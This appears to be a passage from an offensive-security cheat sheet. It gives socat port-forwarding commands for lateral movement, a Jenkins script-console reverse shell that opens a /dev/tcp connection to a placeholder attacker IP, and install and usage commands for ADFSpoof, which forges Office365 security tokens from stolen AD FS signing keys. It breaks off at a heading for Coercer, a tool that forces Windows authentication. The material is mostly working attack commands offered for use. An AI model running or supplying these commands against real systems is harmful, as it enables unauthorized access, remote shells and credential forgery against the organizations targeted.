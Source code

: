 Start-Process "shell-name.exe"`
image

🔙Forwarding Ports
Sometimes, after gaining access to an endpoint there are local ports. Making these internal ports external routable can help for lateral movement to other services on the host.

socat TCP-LISTEN:8888,fork TCP:127.0.0.1:80 &
socat TCP-LISTEN:EXTERNAL_PORT,fork TCP:127.0.0.1:INTERNAL_PORT &
🔙Jenkins reverse shell
If you gain access to a jenkins script console you can use this to gain a reverse shell on the node.

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP_ADDRESS/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
🔙ADFSpoof
Created by Doug Bienstock @doughsec while at Mandiant FireEye.

ADFSpoof has two main functions:

Given the EncryptedPFX blob from the AD FS configuration database and DKM decryption key from Active Directory, produce a usable key/cert pair for token signing.
Given a signing key, produce a signed security token that can be used to access a federated application.
This tool is meant to be used in conjunction with ADFSDump. ADFSDump runs on an AD FS server and outputs important information that you will need to use ADFSpoof.

Install:

Note: ADFSpoof requires the installation of a custom fork of the Python Cryptography package, available here.

git clone https://github.com/mandiant/ADFSpoof
pip install -r requirements.txt
Usage:

# Decrypt the EncryptedPFX and write to disk
python ADFSpoof.py -b EncryptedPfx.bin DKMkey.bin dump

# Generate a security token for Office365
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com o365 --upn robin@doughcorp.co --objectguid {1C1D4BA4-B513-XXX-XXX-3308B907D759
Full usage information can be found here.

Additional command examples can be found here.

image

Image used from https://github.com/mandiant/ADFSpoof#usage

🔙Coercer
A python script to automatically coerce a Windows server to authenticate on an arbitrary machine through many methods.
